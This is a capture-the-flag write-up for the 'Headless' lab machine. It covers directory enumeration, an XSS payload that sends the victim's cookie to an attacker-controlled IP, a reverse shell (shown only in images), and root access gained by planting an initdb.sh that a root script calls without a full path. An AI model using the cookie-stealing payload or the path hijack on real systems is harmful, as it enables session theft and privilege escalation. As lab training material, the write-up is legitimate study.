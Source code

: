```yaml
---
description: Linux | easy | Werkzeug 2.2.2 | xss cookie stealing | syscheck priv esc
---
```


# Headless

ip : 10.129.8.42



## Recon

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Server: Werkzeug/2.2.2 Python/3.11.2


```

\=> Web server python sur le port 5000

```bash
echo "10.129.8.42 headless.htb" | sudo tee -a /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration&#x20;

```bash
gobuster dir -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u  http://headless.htb:5000
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Foothold

Lets try to see if this form is vulnerable to XSS.&#x20;

```
<script>document.location="http://10.10.14.20:8000/plop?z="+document.cookie;</script> 
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

we switch the cookie via cookieEditor on the dashboard page



<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

time to upload a reverse shell ! lets first url encode our payload

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Then inject it&#x20;

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Root Flag

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

here is syscheck  : &#x20;

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

we can see that the script call initdb.sh whitout absolute path. lets creat an intdb.sh to gain privilege !&#x20;



<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
